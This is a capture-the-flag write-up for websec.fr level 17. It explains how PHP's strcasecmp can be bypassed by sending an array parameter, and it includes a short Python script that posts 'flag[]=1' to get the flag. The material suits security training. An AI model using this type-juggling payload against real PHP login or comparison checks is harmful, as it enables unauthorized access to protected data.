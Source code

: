 # Level17

## Analysis
- this challenge asks us to guess the flag, while introducing random sleeping times to avoid timing attacks
- the provided flag is compared with the flag (imported from `flag.php`)


## Solution
- the flag can not be trivially received by visiting `flag.php` or `flag.phps`
- the vulnerability is caused by `strcasecmp`, which compares a user-controlled data with the actual flag
  - if the check succeeds, the user receives the flag
  - we can make sure that the function returns ``true`` if we provide an array instead of a simple string
  - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#strcmp-strcasecmp
- the following python script extracts the flag:

```python
import requests
headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
}
response = requests.post('https://websec.fr/level17/index.php', headers=headers, data='flag[]=1')
print(response.text)
```